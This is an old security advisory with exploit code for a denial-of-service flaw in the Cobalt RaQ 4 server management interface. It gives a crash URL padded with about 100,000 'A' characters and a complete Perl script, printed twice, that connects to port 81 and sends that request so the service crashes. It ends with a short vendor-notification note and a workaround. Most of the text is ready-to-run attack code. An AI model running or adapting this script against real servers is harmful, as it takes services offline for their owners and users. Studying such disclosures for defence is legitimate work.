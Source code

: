 INFO
----

    ------oOo----------------
    Cobalt RAQ 4 Server Management,
    Cross Site Scripting , Directory Traversal & DoS Vulnerabilities.
    ------oOo----------------


    Company Affected: www.cobalt.com & www.sun.com
    Version: RAQ 4 Server Management.
    Dowload: http://www.cobalt.com/products/raq/index.html
    OS Affected: Linux ALL, Solaris ALL.


    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, G.Maggiotti.


    ----=[Brief Description]=------------

    Denial Of service.


    Proof Of concept:

    Server crashes after sending a very long URL:

    Example:

    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=/AAAAAAAAA...(Ax100000)...AAA


    Crash system and the admin need restart the service!.


    ------oOo-------------
    Exploit Code DoS Cobalt4_DoS.pl
    ------oOo-------------


    #!/usr/bin/perl
    #
    # Simple script to send a long 'A^s' command to the server,
    # resulting in the server crashing.
    #
    # Cobalt RAQ DoS v4 proof-of-concept exploit.
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, G.Maggiotti.
    #
    #
    # Usage: perl -x Cobalt4_DoS.pl -s <server>
    #
    # Example:
    #
    # perl -x Cobalt4_DoS.pl -s 10.0.0.1
    #
    # Crash was successful !
    #

    use Getopt::Std;
    use IO::Socket;

    print("\nCobalt RAQ DoS v4.0 DoS exploit (c)2002.\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    getopts('s:', \%args);
    if(!defined($args{s})){&usage;}

    ($serv,$port,$def,$num,$data,$buf,$in_addr,$paddr,$proto);

    $def = "A";
    $num = "100000";
    $data .= $def x $num;
    $serv = $args{s};
    $port = 81;#maybe u define the port for diference of versions
    $buf = "GET /cgi-bin/.cobalt/alert/service.cgi?service=$data
    /HTTP/1.0\r\n\r\n";


    $in_addr = (gethostbyname($serv))[4] || die("Error: $!\n");
    $paddr = sockaddr_in($port, $in_addr) || die ("Error: $!\n");
    $proto = getprotobyname('tcp') || die("Error: $!\n");

    socket(S, PF_INET, SOCK_STREAM, $proto) || die("Error: $!");
    connect(S, $paddr) ||die ("Error: $!");
    select(S); $| = 1; select(STDOUT);
    print S "$buf";


    print("\nCrash was successful !\n\n");

    sub usage {die("\n\nUsage: perl -x $0 -s <server>\n\n");}


    ------oOo------------------------------------
    Vendor Response:
    The vendor was notified

    Posted List^s Security cobalt:
    cobalt-security@list.cobalt.com &
    jlovell@sun.com

    http://www.cobalt.com
    Patch Temporary:
    Delete files cgi^s from the system, or disable its
    possible execution.

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2002.

    ------oOo------------------------------------

Cobalt4_DoS.pl
---------------

    #!/usr/bin/perl
    #
    # Simple script to send a long 'A^s' command to the server,
    # resulting in the server crashing.
    #
    # Cobalt RAQ DoS v4 proof-of-concept exploit.
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, G.Maggiotti.
    #
    #
    # Usage: perl -x Cobalt4_DoS.pl -s <server>
    #
    # Example:
    #
    # perl -x Cobalt4_DoS.pl -s 10.0.0.1
    #
    # Crash was successful !
    #

    use Getopt::Std;
    use IO::Socket;

    print("\nCobalt RAQ DoS v4.0 DoS exploit (c)2002.\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    getopts('s:', \%args);
    if(!defined($args{s})){&usage;}

    ($serv,$port,$def,$num,$data,$buf,$in_addr,$paddr,$proto);

    $def = "A";
    $num = "100000";
    $data .= $def x $num;
    $serv = $args{s};
    $port = 81;#maybe u define the port for diference of versions
    $buf = "GET /cgi-bin/.cobalt/alert/service.cgi?service=$data
    /HTTP/1.0\r\n\r\n";


    $in_addr = (gethostbyname($serv))[4] || die("Error: $!\n");
    $paddr = sockaddr_in($port, $in_addr) || die ("Error: $!\n");
    $proto = getprotobyname('tcp') || die("Error: $!\n");

    socket(S, PF_INET, SOCK_STREAM, $proto) || die("Error: $!");
    connect(S, $paddr) ||die ("Error: $!");
    select(S); $| = 1; select(STDOUT);
    print S "$buf";


    print("\nCrash was successful !\n\n");

    sub usage {die("\n\nUsage: perl -x $0 -s <server>\n\n");}